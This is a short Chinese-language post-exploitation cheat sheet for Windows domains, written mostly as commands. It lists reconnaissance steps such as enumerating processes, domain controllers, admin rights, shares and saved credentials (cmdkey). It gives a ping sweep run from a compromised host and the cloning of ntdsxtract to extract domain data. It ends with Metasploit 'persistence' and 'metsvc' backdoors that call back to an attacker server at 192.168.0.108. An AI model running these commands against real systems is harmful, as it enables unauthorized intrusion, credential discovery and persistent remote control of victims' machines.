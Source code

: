 ```
systeminfo 查看系统信息
wmic process list brief 查询进程信息
tasklist /svc 显示每个进程中的服务信息
tasklist /S ip /U domain\\username /P /V 查看远程计算机tasklist
net localgroup administrators && whoami 查看当前是不是属于管理组

nltest /dclist:xx  查看域控
whoami /all 查看Mandatory Label uac级别和sid号

net share     
wmic share get name,path,status 查看当前共享

cmdkey /l   查看保存登陆凭证
echo %logonserver%  查看登陆域
spn –l administrator spn记录

#列出或者断开本地计算机与之连接的客户端的会话(需要管理权限)
net session\[//computername\]\[/delete\]
例子:net session //momaek /delete

#查看计划任务
schtasks /query /fo LIST /v

#查看主机开机时间
net statistics workstation

dsquery server - 查找目录中的 AD DC/LDS 实例
dsquery user - 查找目录中的用户
dsquery computer 查询所有计算机名称windows 2003


```

```
#脚本收集域信息，使用ntdsxtract提取域信息
git clone https://github.com/csababarta/ntdsxtract.git  python setup.py build && python setup.py install


```

```
#使用被攻击主机CMD扫描存活ip
for /L %P in (1,1,254) DO @ping ‐w 1 ‐n 1 192.168.1.%P | findstr "TTL ="


```

```
#Msf持续后门

run persistence -U -i 10 -p 10390 -r 192.168.0.108
#persistence启动项后门：反弹时间间隔是10s  端口是10390 Metasploit服务器ip是192.168.0.108

run metsvc –A
#metsvc服务后门：在C:\\Users\*\*\*\\AppData\\Local\\Temp\\上传三个文件:metsrv.x86.dll、metsvc-server.exe、metsvc.exe,通过服务启动,服务名为meterpreter


```
